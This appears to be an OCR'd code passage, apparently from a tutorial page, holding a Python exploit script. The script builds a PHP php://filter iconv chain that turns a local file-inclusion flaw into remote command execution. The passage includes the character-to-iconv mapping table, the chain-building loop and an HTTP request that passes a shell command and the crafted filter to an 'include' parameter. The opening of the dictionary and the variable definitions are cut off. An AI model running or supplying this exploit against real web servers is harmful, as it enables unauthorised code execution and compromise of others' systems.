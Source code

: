 ```python
'U': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932',
'P': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213',
'V': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.851.BIG5',
'0': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2',
'Y': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2',
'W': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.851.UTF8|convert.iconv.L7.UCS2',
'd': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2',
'D': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2',
'7': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2',
'4': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC_P271.UCS2'
}


# generate some garbage base64
filters = "convert.iconv.UTF8.CSISO2022KR|"
filters += "convert.base64-encode|"
# make sure to get rid of any equal signs in both the string we just generated and the rest of the file
filters += "convert.iconv.UTF8.UTF7|"


for c in base64_payload[::-1]:
filters += conversions[c] + "|"
# decode and reencode to get rid of everything that isn't valid base64
filters += "convert.base64-decode|"
filters += "convert.base64-encode|"
# get rid of equal signs
filters += "convert.iconv.UTF8.UTF7|"

filters += "convert.base64-decode"

final_payload = f"php://filter/{filters}/resource={file_to_use}"

r = requests.get(url, params={
"0": command,
"action": "include",
"file": final_payload
})

print(r.text)
```
### Améliorations
